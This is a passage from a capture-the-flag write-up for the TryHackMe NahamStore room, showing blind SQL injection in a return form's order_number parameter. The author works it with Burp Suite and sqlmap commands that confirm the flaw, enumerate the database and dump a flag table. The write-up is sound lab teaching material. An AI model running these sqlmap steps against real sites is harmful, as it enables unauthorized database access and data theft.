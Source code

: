 **My theory is: When I supply the `order_number` and click `Create Return`, the database will fetch the `order_number` item's data.**

> Since dealing with blind SQL injection manually will be insanely painful, I'll use `sqlmap` to automatic that process.

**To do so, I'll:**

- Intercept the POST request in Burp Suite, and save the request to a file:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/NahamStore/images/a66.png)

- Run `sqlmap` with `-r` option:

**Confirming it's vulnerable to blind SQL injection:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# sqlmap -r req.txt
[...]
[05:46:50] [INFO] (custom) POST parameter 'MULTIPART order_number' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable
[...]
```

- Enumerate database name:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# sqlmap -r req.txt --dbms=mysql --batch --threads 10 --current-db
[...]
[05:52:27] [INFO] retrieved: nahamstore             
current database: 'nahamstore'
```

**Found database name: `nahamstore`**

- Retrieve the flag:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# sqlmap -r req.txt --dbms=mysql --batch --threads 10 -D nahamstore -T sqli_two -C flag --dump
[...]
Database: nahamstore
Table: sqli_two
[1 entry]
+------------------------------------+
| flag                               |
+------------------------------------+
| {Redacted}                         |
+------------------------------------+
```

We finally completed this room!!

# Conclusion
